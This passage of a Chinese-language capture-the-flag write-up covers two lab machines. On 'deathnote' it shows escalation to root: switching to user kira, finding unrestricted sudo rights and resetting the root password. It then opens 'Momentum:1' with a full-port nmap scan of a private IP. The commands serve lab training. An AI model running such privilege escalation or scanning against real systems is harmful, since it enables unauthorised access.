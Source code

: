 

切换到 kira 用户，登录成功

```
l@deathnote:/etc/apache2$ su kira
Password: 
kira@deathnote:/etc/apache2$ 
```



查看 kira 用户的 sudo 权限，可以执行任何命令

```
kira@deathnote:/etc/apache2$ sudo -l 
[sudo] password for kira: 
Matching Defaults entries for kira on deathnote:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User kira may run the following commands on deathnote:
    (ALL : ALL) ALL
```



修改 root 用户密码

```
kira@deathnote:/etc/apache2$ sudo passwd root
New password: 
Retype new password: 
passwd: password updated successfully
```



切换到 root 用户

```
kira@deathnote:/etc/apache2$ su root
Password: 
root@deathnote:/etc/apache2# 
```



### Momentum：1

Nmap 扫描端口

```
db_nmap -sS -sV -p- -r -n -O -T 5 10.10.10.102
```

```
host          port  proto  name  state  info
----          ----  -----  ----  -----  ----
10.10.10.102  22    tcp    ssh   open   OpenSSH 7.9p1 Debian 10+deb10u2 protocol 2.0
10.10.10.102  80    tcp    http  open   Apache httpd 2.4.38 (Debian)
```
